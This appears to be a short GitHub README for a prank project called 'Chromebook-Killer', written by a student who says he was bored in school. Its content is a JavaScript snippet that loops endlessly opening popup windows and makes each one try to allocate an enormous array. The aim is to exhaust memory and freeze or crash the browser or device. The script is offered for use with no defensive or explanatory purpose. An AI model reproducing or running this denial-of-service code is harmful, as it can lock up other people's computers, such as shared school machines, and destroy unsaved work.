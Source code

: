 # Chromebook-Killer
I was bored in school. Nothing new there.

```js
for(;;){
  var a=Math.floor(100*Math.random()+1),
  b = window.open("_blank","Lag"+a,"height=800,width=800");
  b.document.body.innerHTML="<script>[...Array(2**32-1)]</script>"
}
```
